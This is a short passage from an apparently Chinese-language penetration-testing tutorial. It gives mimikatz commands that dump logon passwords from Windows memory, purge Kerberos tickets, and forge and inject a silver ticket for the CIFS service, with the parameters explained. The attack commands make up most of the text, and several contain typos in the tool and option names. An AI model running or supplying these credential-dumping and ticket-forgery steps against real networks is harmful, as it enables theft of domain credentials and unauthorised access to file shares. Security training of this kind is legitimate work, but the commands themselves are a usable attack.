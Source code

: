 ```plain
# mimikata.exe "privilege::debug"  "sekurlsa::logonpasswords" "exit" > log.txt
```

[![image-20220517202540448.png](assets/1698894253-54bfa44da5a8259b5bb98bffa5176e71.png)](https://storage.tttang.com/media/attachment/2022/06/17/22097384-83ec-4b75-9bc3-7d65aaaaf39f.png)

先使用 mimikatz 清空票据 再导入伪造的票据

```plain
mimikatz # kerberos::purge  //清空票据
```

伪造白银票据

```plain
mimilatz # kerberos::golden /domin:cyber.com /sid:S-1-5-................  /target:scene.ctber.com /service:cifs /rce4:................. /user:test /ptt 


/domain   当前域名称
/sid    SID 值，和金票一样取前一部分
/target  目标主机  
/service  服务名称 这里需要访问共享文件 所以是 cifs
/rce4  目标主机的 Hash 值
/user  伪造的用户名
/ptt   表示的是 Psss TheTicket 攻击，是把生成的票据导入内存，也可以使用、ticket 导出之后再使用 kerberos::ptt 来导入
```

可以通过 klist 命令查看当前会话的 kerberos 票据可以看到生成的票据
